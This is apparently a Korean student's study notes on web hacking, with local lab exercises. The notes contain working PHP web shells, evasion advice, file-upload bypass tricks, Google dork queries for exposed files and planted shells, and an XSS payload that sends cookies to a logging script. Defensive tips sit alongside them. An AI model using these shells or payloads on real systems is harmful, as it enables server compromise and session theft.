







## 🌈 Chapter 1: 웹 해킹

**DDos (Distributed Denial of Service)** : 분산 서비스 공격, 여러대의 컴퓨터를 악성코드에 감염시켜 좀비 PC로 만든 뒤, C&C(명령제어) 서버의 명령을 받아 일제히 특정 서버에 대량 패킷을 전송하는 공격기법

### 📌 환경 구축
---
[참고](https://soda-dev.tistory.com/52)
1. 아파치 설치
2. PHP 설치

    경로 : `C:\Apache Group\php8\`
3. MySQL 설치

    **<mysql 로그인 방법>**

    cmd 관리자 권한으로 실행 -> `mysql -u root -p` -> 비밀번호 입력

    **<데이터 베이스 생성하기>** 
        
    mysql 로그인 -> cmd에 `create database test;`
4. 툴 설치
    
    웹 프록시 Web Proxy 툴 : 일반적인 외부 서버와 접속하는 프록시가 아니라, 해당 PC의 내부에서 가상 포트를 열고 해당 프로그램이 서버와 웹 브라우저의 HTTP 패킷을 중간에서 전달해주는 역할을 함.
    
    -> Request 혹은 Response 해킷을 가로채거나 수정할 수 있고 드롭도 가능
    
    [**파로스(Paros)**](https://sourceforge.net/projects/paros/) paros.md 에 적어놨다. 참고하길 바란다.
    
    32bit java jdk를 깔아주고 환경변수에 그 exe 위치를 넣어준후 paros의 바로가기 경로를 그 exe위치로 넣어주면 돌아간다.

    구글 -> 설정 -> 프록시설정 -> localhost, 8080설정후 아무 홈페이지나 들어가면 paros 사이트부분에 이것저것 뜨는것을 볼 수 있다. -> 사용후에 꺼주기.

    Request 값을 변경하거나 어떤 값이 오가는지 확인하고 가로챌 때 파로스가 유용하다.
    
    - 아래 접속 로그를 통해 Request, Response의 값을 보거나 Resend를 할 수 있고, 위 Trap 탭을 통해 Request 혹은 Response 값을 변경 할 수 있다.

### 🔑  구글 해킹 (Google Dork)
---
구글 검색을 활용한 해킹방법

가능한 한 많은 정보를 수집하는것 == 공격자의 입장에서 공격할 포인트가 많아진다는 것

정보수집 절차에서 구글 해킹은 타겟 사이트에 대한 관리자 페이지 등 많은 정보를 수집하는데 도움을 주소, 심지어 검색많으로 기밀문서나 개인정보가 노출되는 경우도 종종 발생함.

구글은 방대한 사이트 자료를 갖고있고, 여러 검색 고급 연산자를 지원함 -> 많은 정보 획득가능, 취약한 다수의 홈페이지를 단 한번의 검색결과로 가져오기도함.


<구글 검색엔진이 지원하는 검색 부울 연산자>
|연산자|사용 예|설명|
|------|---|---|
|AND|"가"&"나", "가" "나" "가"AND"나"|"가"와"나"의 문자열을 모두 포함하는 문서 검색|
|OR|"가"\|"나", "가"OR"나"|"가"혹은"나" 문자열을 포함하는 문서 검색|
|NOT|"가나다"-"한글", "가나다"NOT"한글"|"가나다" 문자열을 포함하고 "한글" 문자열은 제외한 문서 검색|

<구글 검색엔진이 지원하는 검색 연산자>
|연산자|사용 예|설명|
|------|---|---|
|""|"security conference"|인용부호를 사용해 정확한 단어 혹은 문구를 검색|
|~|~hacking|동의어 또는 관련 검색어와 함께 검색|
|*|* 모아 * 이다|알 수 없는 단어가 위치한 부분에 "*" 연산자를 사용해 검색|
|..|월드컵 1950..2000|숫자사이에 ".."를 넣어 가격, 수치와 같이 범위 문서를 검색|

<구글 검색 고급 연산자>
|연산자|사용 예|설명|
|-----|---|---|
|inurl:|inurl:abc|주소에 "abc"가 들어간 문서 검색|
|intitle:|intitle:해킹|Title에 "해킹"이 들어간 문서 검색|
|intext:|intext:로그인|본문에 "로그인"이 들어간 문서 검색|
|site:|site:http://abc|http://abc 문서에서의 검색|
|link:|link:http://abc|http://abc의 링크가 걸린 문서 검색|
|inanchor|inanchor:http://abc|http://abc가 텍스트로 표현된 문서 검색|
|filetype:|filetype:jpg|jpg 확장자 검색|
|cache:|cache:http://abc|구글에 저장된 http://abc 페이지 보기|
|numrange:|numrange:1000-2000|1000-2000 숫자 범위의 결과 검색|

#### 검색을 이용한 공격
1. **백업 파일의 노출**
    
    대부분의 편집용 프로그램에서 기본적으로 제공하는 백업 기능은 특정 파일이 편집중이거나 삭제되었을 때 다음과 같은 백업 파일을 저장한다.
        
        Vi editor : .{파일명}.{확장자}.swp
        EditPlus, UltraEdit : {파일명}.{확장자}.bak
        기타 : {파일명}.{확장자}.back, {파일명}.{확장자}.backup 등
    홈 폴더에 관리자의 실수로 다음과 같은 백업 파일을 남겨놓는 경우가 종종있다.

        html.tar.gz
        public_html.tar.gz
        www.tar.gz
        sql.sql
        db.sql
        backup.sql
        ...
2. **관리자 페이지 권한의 실수, 노출**

    아직도 많은 홈페이지들이 /admin/ 이나 /manager/와 같은 관리자 페이지를 사용하고 있다.
    
     ex) `http://www.xxx.com/admin/`,`http://www.xxx.com/manager/`,`http://www.xxx.com/master/`,`http://www.admin.com/`,...

    -> `site:xxx.com`,`inurl:admin` 같은 쿼리로 관리자 페이지를 찾아낼 수 있고, admin 폴더 내부 파일을 검색 할 수도 있다. 그리고 관리자 페이지의 경우 모든 파일이 관리자 권한을 체크하는 기능을 포함해야하지만, 관리자 메인 페이지를 제외하고 체크하지 않는 경우가 빈번해서 문제가 되고있다.
3. **기밀 업로드 파일의 관리실수**

    파일 업로드 기능이 있는 게시판 경우, 대다수가 다음과 같은 폴더에 업로드한 파일을 저장한다. 만약 비밀글이 있고 파일이 첨부 되어있다면, `inurl:/board/data/`,`site:xxx.com`과 같은 쿼리를 통해 비밀 글의 첨부파일을 받아볼 수도 있다.
    
        /pds/
        /upload/
        /up/
        /data/
        /file/
        /files/
        ...
4. **디렉터링 리스팅**

    웹 서버의 특정경로에 있는 파일들을 웹 서비스를 통해 디렉토리 형식으로 볼 수 있는것을 말함.


    디렉터링 리스팅 취약점 : 의도치 않게 서버에 있는 자료가 노출될 수 있다.
    
    웹 서버의 폴더 요청 시 index 파일이 존재하지 않을 경우 그림과 같이파일 목록을 출력해주는 아파치 옵션. 환경에 따라 기본옵션이 켜져있는 경우가 많기 때문에 백업 파일이나 중요 정보 파일이 노출되는 사례가많다. 

간단하게 디렉터링 리스팅 실습을 해보자.
`Apache24/htdocs/`에 `directorylisting`이라는 간단한 directory를 만들고 어떠한 index.html, main.asp(기본페이지)도 넣지 않고 추가적인 파일들을 넣어줬다.
http://localhost/directorylisting/
로 URL 입력을 디렉토리까지만하고 요청을 해보았다.

파일들이 노출됨을 알 수 있다.

디렉터리 리스팅 페이지의 타이틀 문자열인 "Index of"와 본문의 "Parent Directory" 등 문자열들을 이용해 구글에서 디렉터리 리스팅 취약점이 있는 사이트만 검색할 수 있다. 하지만 디렉터리 리스팅은 아파치 옵션으로서 고의적으로 리스팅을 허용하는 페이지도 있다.

5. **웹 쉘 노출**

    이미 다른해커의 공격받아 생성된 웹 쉘을 찾아낸다면, 해당 서버는 다양한 공격을 거치지 않고 구글 해킹만으로 점령할 수 있게된다. 해당 웹 쉘의 특정문자열을 이용해 검색 쿼리를 제작하면, 많은 서버를 획득 할 수 있다.

#### 구글 해킹 예제
- `inurl:*.php.bak -site:github.com` : 백업파일 노출
- `intext:"MySQL dump 10.10" inurl:sql -site:github.com` : MySQL Dump 파일 노출
- `intitle:"관리자 페이지" inurl:/admin/` : 관리자 페이지 노출
- `intitle:"이력서" inurl:/recruit/,/upload/` : 개인정보 및 이력서 노출
- `intitle:Index of" intext:"Parent Directory"` : 디렉터리 리스팅
- `inurl:/upload/ intitle:"R57shell"` : 웹 쉘 노출

#### 웹 해킹 도구
[다양한 구글 해킹 데이터베이스가 담긴 GHDB 사이트](https://www.exploit-db.com/google-hacking-database)

해당 사이트의 패턴들을 숙지해 자신의 패턴을 만들어 보면서 검색능력을 향상 시킬 수 있다.

#### 방어기법

검색엔진 사이트들은 서버를 수집하기 위해 **크롤링 봇**을 이용합니다. 봇은 수많은 서버의 키워드와 이미지들을 수집하는데, 이런 봇들이 특정 웹 사이트를 수집할 때 무분별한 수집을 방지하기 위해, [**로봇 배제 표준**](http://www.robotstxt.org/)을 만들었습니다.

크롤링 봇은 무수히 많은 컴퓨터에 분산 저장되어 있는 문서를 수집하여 검색 대상의 색인으로 포함시키는 기술입니다.

대부분의 검색 로봇이 웹페이지를 크롤링하기 위해 접근할 때, 가장 먼저 해당 사이트의 최상위 폴더에서 robots.txt 파일을 호출해 권한을 확인한 후 수집하는 절차를 밟습니다.

즉, robots.txt는 접근 가능하거나 불가능한 페이지, 디렉터리, 크롤러를 명시함으로써 크롤러를 제어할 수 있는 파일입니다.

로봇의 제한
1. 모든 검색 로봇이 robots.txt를 따르는 것은 아닙니다.
2. 로봇의 제한을 위한 방법으로는 두 가지가 있습니다: robots.txt를 이용하는 방법과 `<META>` 태그를 이용하는 방법이 있습니다.


<robots.txt의 사용법>
    
**웹서버의 최상위 폴더에 robots.txt 파일을 생성한 후 다음과 같은 예제를 사용할 수 있다.**

```md
# robots.txt 예제2-2) 모든 로봇 문서 접근 허용
    User-Agent: *
    Disallow:
```
```md
# robots.txt 예제2-3) 모든 봇 접근 금지
    User-Agent: *
    Disallow: /
```
```md
# robots.txt 예제2-4) 특정 폴더 봇 접근 금지('admin','data'폴더)
    User-Agent: *
    Disallow: /admin/
    Disallow: /data/
```
```md
# robots.txt 예제2-5) 구글 봇만 접근 허용
    User-Agent: Google
    Disallow:
    User-Agent: *
    Disallow: /
```
민감한 정보가 담긴 폴더면 robots.txt로 크롤링을 제외해주자.

URL 접근 제한 실패 라는 관리자의 실수가 발생 할 수 o
-> 관리자 페이지에 인증이 있어도 민감한 폴더로의 접근을 허용하지 않도록 권장.
예를들어.. 관리자 페이지가 다음과 같이 구성되어있으면
    
    http://target/admin/login.php
    http://target/admin/member_info.php
    ...

`member_info.php` 페이지에서 로그인 체크를 하지 않으면 공격자는 로그인을 거치지 않고 바로 접근해 개인정보와 같은 중요한 정보를 볼 수 있다. 위 페이지가 구글에 노출된다면 해커들은 여러 키워드를 통해 해당 페이지를 습득할 것이고, 이는 개인정보 유출사고로 이어질 것이다.


### 🔑 파일 업로드
---
업로드 취약점을 통해 웹 쉘을 해당 타겟 서버에 업로드한뒤, 해당 업로드 경로를 찾아 웹 쉘을 실행 시킨다. 해당 웹 쉘을 통해 해커는 웹 애플리케이션 권한으로 (www-data,apache...) 시스템 명령어를 실행할 수 있다.

#### 웹 쉘 제작
[r57shell](https://www.r57shell.net/single.php?id=11) 
- phpinfo() (PHP 정보 출력)
- CPU, 메모리 사용량 측정
- MySQL, MS-SQL, PostgreSQK,Oracle의 쿼리 실행, 덤프
- 시스템 명령어 실행
- 파일 수정, 찾기
- PHP 코드 실행
- 파일 업로드, 다운로드
- FTP 접속
- 이메일 전송
- Self Remover

~~왜 안되는지 모르겠다.. 더 발전된 그냥 c99 쓰자.~~

[c99shell](https://www.r57shell.net/single.php?id=13) 
- 탐색기
- 실행 중인 프로세스 목록
- MySQL 쿼리 실행
- 시스템 명령어 실행
- 파일수정, 파일 찾기
- PHP 코드 실행
- 파일 업로드
- FTP Brute Force
- Reverse Telnet
- En/Decode
- Self Remove

~~`get_magic_quotes_gpc()`정의 되지않았다는 오류가 나는데.. 이는 php 7.4 버전부터 제거 되어서 발생한다함.. 안쓸래..~~

[wsomini](https://www.r57shell.net/single.php?id=33) 나름 최신꺼로 시도해봤음.
대충 data 폴더 만들고 그 안에 wsomini.php를 넣은 후 http://localhost/data/wsomini.php 요청을 보냄


뭐 아무튼...

좋은 웹 쉘이 있는데, 웹 쉘 제작법을 왜 따로 배워야하냐?

-> 웹보안이 이슈가 되면서 보안체계가 구축된 곳이 상당히 많아졌고, 앞서 설명한 유명 웹 쉘들은 현재 매우 간단히 탐지되는 상황. 탐지되지 않는 웹 쉘을 이용하기 위해 웹 쉘을 제작해야 하는것이다.

`eval ($_POST['q'])` 같은 코드를 심어놓고, `q` 파라미터에 웹 쉘과 명령어를 함께 전송시키는 방법도 사용되고있다. 또한 대부분 POST 메소드를 이용해 시스템 명령어나 코드를 실행하는데, 아파치의 로그 파일은 POST 전송의 데이터를 기록하지 않기 때문이다.

<직접적으로 시스템 명령어를 실행하는 함수들>

    system
    exec
    passthru
    popen
    shell_exec
    curl_exec
    ``
    
<PHP 코드를 실행해주거나 callback을 사용하는 함수>

    eval
    preg_replace ( /e option )
    preg_replace_callback
    create_function
    call_user_func

+추가적으로 유의해야할 함수

    fopen
    copy
    chown
    chmod
    file_get_contents
    mkdir
    rmdir
    unlink
    * move_uploaded_file
    move_uploaded_file
    glob
    opendir
    readdir
    ...

웹 쉘을 차단하기 위해 이 함수들을 문자열 필터링 방식으로 필터링하면 얼마든지 우회 방법이 생겨날 수 있다. 그러므로 php.ini 의 disable_functions 옵션을 사용해 함수를 사용하지 못하도록 비활성화 시키는것이 좋다. (우회기법 있긴함) 
```php
//PHP에서 시스템코드를 실행시킬 수 있는 가장 짧은 웹 쉘
<?`=$_GET[c]`;?>
```
```php
//예제 2-6) 웹 쉘 코드
<?php
    // cmd를 인자로 받아, Backtick을 이용해 시스템 명령어 실행
    $cmd = isset($_GET['cmd']) ? $_GET['cmd'] : '';
    if ($cmd !== '') {
        $result = `$cmd`;
        $result = str_replace("\n", "<br />", $result);
        echo $result;
    }

    // 서버 정보 출력
    echo trim(`whoami`) . '@' . trim(`hostname`) . ':' . getcwd() . "<br /><br />";

    // 현재 폴더 설정 및 출력
    $dir = isset($_GET['dir']) ? $_GET['dir'] : '.';
    chdir($dir);

    $dh = opendir(".");
    while (($file = readdir($dh)) !== false) {
        if (is_dir($file)) {
            echo "<a href=" . $_SERVER['PHP_SELF'] . "?dir=" . $dir . "/" . $file . ">" . $file . "</a>";
        } else {
            echo $file;
        }
        echo "<br />";
    }
    closedir($dh);
?>
```
http://localhost/data/MyWebShell.php 요청을 보내면, 위와같이 directory가 노출됨.


대부분의 웹 쉘 탐지 솔루션의경우 패턴기반으로 탐지하므로, 이를 우회하기위해 암호화하거나 난독화하는 것도 좋다.

#### 파일 업로드 취약점 공격
앞에서 배운 PHP 웹 쉘 파일을 업로드한 후 해당 웹 쉘파일을 요청하면 PHP코드가 실행되어 시스템 명령어를 수행할 수 있음을 기억하자.

해당 이미지의 속성값을 이용해 업로드된 경로를 찾아내거나 업로드 패턴파악(업로드 시간으로 파일명 변경) 등의 기타 여러방법을 통해 업로드 경로를 파악한 후 악성 PHP 파일의 경로를 요청하면 PHP파일이 실행될 수 있다.

#### 파일 업로드 우회 기법
- php.kr 우회 기법
    
    아파치의 AddLanguage 옵션에 의헤 발생하는 것으로, 파일명이 .php가 아닌 vuln.php.kr 일 경우에도 PHP파일이 실행된다.
- .htaccess 업로드 취약점
    
    아파치 설정 파일인 .htaccess를 업로드하게 되면 여러 아파치 옵션을 변경시킬 수 있고 Addtype과 같은 옵션을 통해 txt, jpg 등 원하는 확장자를 PHP코드로 실행 시킬수 있다.
- 환경 취약점

    윈도우 환경에서는 파일 업로드 시 파일명에 콜론(:)을 붙일 경우 그 뒤에 문자열은 삭제되어 업로드된다. 에를들어 abc.php:.jpg 파일을 업로드할 경우 jpg의 확장자를 가진 파일이 업로드되는것이 아니라 abc.php 파일이 업로드된다.
#### 파일 업로드 방어 기법
1. `php_value engine off` 내용의 `.htaccess` 파일을 업로드 폴더에 생성한다.
2. `.htaccess` 파일을 사용자가 업로드하지 못하도록 필터링 한다.

아파치 옵션 파일인 `.htaccess` 파일을 통해 해당 폴더에 PHP 엔진을 OFF시켜 실행 파일이 업로드되어도 실행되지 않는다.데이터베이스와 연동해 `download.php?fileno=3`과 같은 방식으로 파일을 다운로드시켜 파일의 경로를 알 수 없게 하는 방법과 아예 모든 확장자를 랜덤하게 저장하는 방법등 다양한 방어기법 존재.

### 크로스 사이트 스크립팅 (XSS)
**웹 페이지에 스크립트를 삽입할 수 있는 취약점.**

#### Reflected XSS

사용자가 입력한 값이 응답 페이지에서 실행되는 XSS 공격방법

msg파라미터를 출력하는 xss.php
```php
<?
    echo $_GET['msg'];
?>
```
xss.php에 msg를 GET으로 넘겨주면, 출력을 해준다.

`http://localhost/xss/xss.php?msg=<script>alert(/XSS/)<script>` 요청을 해주면, 스크립트가 실행됨을 알 수 있다.

#### Stored XSS

주로 게시판의 악성 스크립크가 삽입된 형태로 공격이 이루어진다. 사용자의 입력값을 그대로 저장해 출력하는 경우, 악의적인 사용자가 악성 스크립트 글을 작성하게되고 다른사용자가 해당 글을 읽게되면 악성코드가 실행되는 방식.

취약점 존재 여부는 간단한 절차를 통해 테스트 할 수 있다. 경우에 따라 차이는 있지만 <script></script>와 같은 태그 사용이 가능하면 XSS, CSRF 공격의 취약점 존재 가능.

    <script src=script.js></script>
    <script>alert()</script>
    
    
    <style>@import'javascript:alert()';</style>
    <xss style="xss:expression(alert('XSS'))">
    ...
이외에도 이벤트 핸들러 (onerror 류의 on~ 이벤트) 를 이용하거나 태그의 속성을 이용하는 등의 수많은 스크립트 실행 방법이 있으며 플래시, 네트워크, 스푸핑 등을 이용한 공격 방법 존재.

### 쿠키 공격
Cookie?

HTTP의 일종으로서 인터넷 사용자가 어떠한 웹 사이트를 방문할 경우, 그 사이트가 사용하고 있는 서버로부터 인터넷 사용자의 컴퓨터에 설치되는 작은 기록 정보 파일. 인터넷 사용자가 같은 웹 사이트를 방문할 때마다 읽히고 수시로 새로운 정보로 바뀐다.

과거엔 종종 쿠키를 통해 사용자 인증을 했으며, 사용자가 guest 아이디로 로그인했을 때 해당 정보를 쿠키에 담아 id=guest 값이 담기게 된다. 이후 HTTP 요청에는 쿠키값이 따라 붙어 페이지마다 인증하지 않아도 되므로 편리.

클라이언트 단의 기록서이므로 변조가 가능해 id=admin과 같이 변조해 전송할 수 있다는 취약점 존재.

쿠키 인증방식 -> 세션 인증방식
1. 로그인 성공
2. 서버에 sess_[고유문자] 이름의 파일 생성
3. 해당 파일 내용에 로그인 정보 기록
4. 클라이언트 쿠키에 PHPSESSID=[고유문자] 저장
5. 클라이언트는 요청 시 쿠키값(PHPSESSID=[고유문자])와 함께 전송
6. 서버는 쿠키의 PHPSESSID 값을 받아 sess_[고유문자]의 파일을 읽어 로그인 정보확인

`세션의 [고유문자] 길이는 PHP 기준 16byte 의 길이는 갖고있다.`

즉, 쿠키는 클라이언트에 저장되는 정보, 세션은 서버에 저장되고 쿠키에 세션이름이 등록된다.

#### 쿠키탈취공격
자바스크립트에서 현재 페이지의 쿠키는 `document.cookie`에 담기게된다. XSS 공격은 자바스크립트 실행이 가능하니, `document.cookie`값을 해커의 서버로 넘기면 쿠키 탈취가능

메세지를 보내면 해당 메세지를 띄워주는 간단한 웹을 만들어보았다.

`<script>alert('XSS!');</script>` 값을 입력하여 alert창을 띄우는 스크립트를 전송해보자.

alert창이 뜨는 것을 확인가능. 이제 취약점의 존재 유무를 확인했으니, 쿠키를 탈취해보자.

```php
//예제 2-9) log 파라미터를 log.txt에 저장하는 logxss.php
<? 
    $fp = fopen("log.txt","a+");
    fwrite($fp,$_GET['log']);
    fclose($fp);
?>
```
를 만들어놓고,
`<script>window.location='http://localhost/xss/logxss.php?log=' + document.cookie</script>` 값을 입력하여 logxss.php 의 log 파라미터에 쿠키값을 담아 이동시키는 스크립트를 전송해보자.

스크립트에 의해 쿠키정보가 나타남을 알 수 있다.
해커서버에 전송된 log.txt 또는 위 사진을 통해 알게된 쿠키정보로 관리자인증을한다.

<쿠키정보 인터넷 익스플로러 등록>

쿠키정보를 인터넷 익스플로러에 등록하려면 자바스크립트를 이용해 `javascript:document.cookie="쿠키값"`을 주소창에 입력하고 새로고침하거나, Cooxie같은 툴을 이용해준다.
#### 크로스 사이트 스크립팅으로 가능한 것들

#### 사이트간 요청 위조 공격 (CSRF)
사용자가 자신의 의지와는 무관하게 해커가 원하는 주소를 요청시키는 방법

<xss와 csrf 비교>
|XSS|CSRF|
|--|--|
|클라이언트(사용자)를 공격 |서버(관리자)를 공격|
|​공격자가 직접 홈페이지에 악의적인 스크립트 삽입 후 공격|사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청|

이미지태그는 대부분의 메일서비스나 게시판 서비스에서 허용하므로 관리, 수정, 삭제 페이지의 구조를 알고 있고 GET 메소드를 사용한다면 손쉽게 공격당할수 있다.

ex) 

만약 회원정보 수정 페이지가 있다면, 회원정보수정 버튼을 누르게되면 처리를 위해 POST 메소드 혹은 GET 메소드로 데이터를 전송하게된다. GET 메소드를 통해 인자가 전달되면 주소는 `http://localhost/damin/member_modify_ok.php?no=198&pass=1234&passre=1234&grade`뭐 이런식으로 될것이다. 

인자가1일때 일반등급, 2일때 관리자 등급이라 가정하면, 해커가 해당주소의 grade를 2로 변조해 요청해도 관리자 권한이 없기때문에 회원정보를 변경 할 수 없다. 이때 CSRF공격으로 스크립트가 실행되지 않는 상황이라도 간단한 태그만으로 손쉽게 공격가능하다.

``와같은 이미지 태그를 심어서 메일을 보낸다면 관리자는 메일을 읽는 순간 자기도 모르게 회원번호 198번을 관리자 등급으로 변경하게 될것이다.

~~실제로 해보진 않았음..~~
#### XSS 방어기법
`<,>를 \&lt; \&gt;로 치환해 태그를 막는 방법` -> 요즘은.. <,>를 에디터기능으로 허용해서 필터링 복잡함

### 데이터베이스 해킹
사용 언어에 따라 데이터베이스 궁합이 잘 맞는 DBMS를 주로 선택해서 사용

<웹 언어별 일반적인 DBMS 선택>
|웹 언어|DBMS|공통 특징|
|---|---|---|
|PHP|MySQL|오픈소스|
|JSP|Oracle|오라클 사|
|ASP|MS-SQL|마이크로소프트|

하나의 데이터베이스 == 테이블의 집합

#### 공격에 필요한 구문

SQL Injection
DBMS 공부하고 다시 오겠다.
https://panwoo1.github.io/%EB%AA%A8%EA%B0%81%EC%BD%94/WebHaknigLecture-5/
#### 공격
#### 방어기법
 